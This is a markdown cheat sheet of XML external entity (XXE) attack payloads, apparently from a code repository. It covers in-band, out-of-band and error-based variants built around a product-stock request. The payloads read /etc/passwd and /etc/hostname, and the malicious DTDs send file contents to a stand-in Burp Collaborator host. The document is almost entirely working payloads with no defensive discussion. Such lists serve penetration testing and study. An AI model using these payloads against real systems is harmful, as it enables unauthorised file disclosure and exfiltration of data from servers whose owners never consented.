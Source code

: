 ## XXE Payloads
### Inband XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Inband XXE with parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
### Out of band XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://BURP_COLLABORATOR"> ]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Out of band XXE with parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://BURP_COLLABORATOR"> %xxe;]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
### Error based XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://SERVER/malicious.dtd">]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Error based XXE with parameter entity(inband)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://SERVER/malicious.dtd"> %xxe;]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil
```
### Error based XXE with parameter entity(out of band)[Recieving response on burp collobarotor]
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

